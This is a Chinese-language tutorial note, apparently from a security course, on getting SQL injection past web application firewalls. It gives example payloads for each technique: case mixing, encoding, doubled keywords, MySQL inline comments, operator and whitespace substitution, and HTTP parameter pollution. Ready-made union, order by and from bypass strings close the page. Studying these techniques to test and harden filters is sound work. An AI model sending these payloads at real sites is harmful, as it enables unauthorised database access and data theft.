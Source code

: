 ```yaml
---
title: 5.1SQL注入之WAF绕过
url: https://www.yuque.com/u29002979/ep2zrx/18ca216f5637ebe217d040397c54d020
---
```


<h1>SQL注入之WAF绕过</h1>
<h3><code>WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。</code></h3>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1647683310000/eaf7c52124254ea59a9cba144ae61b53.png" alt="image.png" class="align-none" /></p>
<h1>关键词大小写绕过</h1>
<pre><code>    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---&gt; unIOn SeLEcT

</code></pre>

<h1>编码绕过</h1>
<pre><code>    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23

</code></pre>

<h1>双写绕过</h1>
<pre><code>    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd

</code></pre>

<h1>换行(\N)绕过</h1>
<pre><code>    举例：select * from admin where username = \N union select 1,user() from admin
</code></pre>
<h1>注释符内联注释绕过：</h1>
<pre><code>

    union selecte =/*!union*/ select

    注释符里感叹号后面的内容会被mysql执行。

</code></pre>

<h1>同义词替换</h1>
<pre><code>    and=&amp;&amp;

    or=||

    =(等于号)=&lt;、&gt;

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格

</code></pre>

<h1>HTTP参污染</h1>
<pre><code>    对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。

    举例：?id=1&amp;id=2&amp;id=3
    ?id=1/**&amp;id=-1%20union%20select%201,2,3%23*/

</code></pre>

<h3><code>WAF绕过的思路就是让WAF的检测规则，识别不到你所输入的敏感字符，利用上述所介绍的知识点，灵活结合各种方法，从而可以增加绕过WAF的可能性</code></h3>
<pre><code>order by绕过：%20/*//--/*/  V4.0
联合绕过：union /*!--+/*%0aselect/*!1,2,3*/ --+
from绕过： /*!06447%23%0afrom*/

</code></pre>
